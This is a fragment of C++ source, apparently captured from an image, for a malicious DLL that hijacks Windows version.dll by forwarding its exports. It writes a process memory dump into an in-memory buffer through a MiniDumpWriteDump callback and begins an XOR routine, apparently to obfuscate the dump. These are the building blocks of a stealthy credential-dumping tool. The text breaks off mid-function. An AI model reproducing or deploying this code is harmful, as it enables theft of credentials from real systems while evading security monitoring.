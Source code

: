 ```cpp
#pragma comment(linker,"/export:VerFindFileW=C:\\Windows\\System32\\version.VerFindFileW,@11")
#pragma comment(linker,"/export:VerInstallFileA=C:\\Windows\\System32\\version.VerInstallFileA,@12")
#pragma comment(linker,"/export:VerInstallFileW=C:\\Windows\\System32\\version.VerInstallFileW,@13")
#pragma comment(linker,"/export:VerLanguageNameA=C:\\Windows\\System32\\version.VerLanguageNameA,@14")
#pragma comment(linker,"/export:VerLanguageNameW=C:\\Windows\\System32\\version.VerLanguageNameW,@15")
#pragma comment(linker,"/export:VerQueryValueA=C:\\Windows\\System32\\version.VerQueryValueA,@16")
#pragma comment(linker,"/export:VerQueryValueW=C:\\Windows\\System32\\version.VerQueryValueW,@17")


// Global variables the will hold the dump data and its size
LPVOID dumpBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 * 1024 * 200); // Allocate 200MB buffer on the heap
DWORD dumpSize = 0;

// Callback routine that we be called by the MiniDumpWriteDump function
BOOL CALLBACK DumpCallbackRoutine(PVOID CallbackParam, const PMINIDUMP_CALLBACK_INPUT CallbackInput, PMINIDUMP_CALLBACK_OUTPUT CallbackOutput) {
	LPVOID destination = 0;
	LPVOID source = 0;
	DWORD bufferSize = 0;
	switch (CallbackInput->CallbackType) {
	case IoStartCallback:
		CallbackOutput->Status = S_FALSE;
		printf("[+] Starting dump to memory buffer\n");
		break;
	case IoWriteAllCallback:
		// Buffer holding the current chunk of dump data
		source = CallbackInput->Io.Buffer;
		
		// Calculate the memory address we need to copy the chunk of dump data to based on the current dump data offset
		destination = (LPVOID)((DWORD_PTR)dumpBuffer + (DWORD_PTR)CallbackInput->Io.Offset);
		
		// Size of the current chunk of dump data
		bufferSize = CallbackInput->Io.BufferBytes;

		// Copy the chunk data to the appropriate memory address of our allocated buffer
		RtlCopyMemory(destination, source, bufferSize);
		dumpSize += bufferSize; // Incremeant the total size of the dump with the current chunk size
		
		//printf("[+] Copied %i bytes to memory buffer\n", bufferSize);
		
		CallbackOutput->Status = S_OK;
		break;
	case IoFinishCallback:
		CallbackOutput->Status = S_OK;
		printf("[+] Copied %i bytes to memory buffer\n", dumpSize);
		break;
	}
	return TRUE;
}

// Simple xor routine on memory buffer
void XOR(char* data, int data_len, char* key, int key_len)
{
	int j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1)
```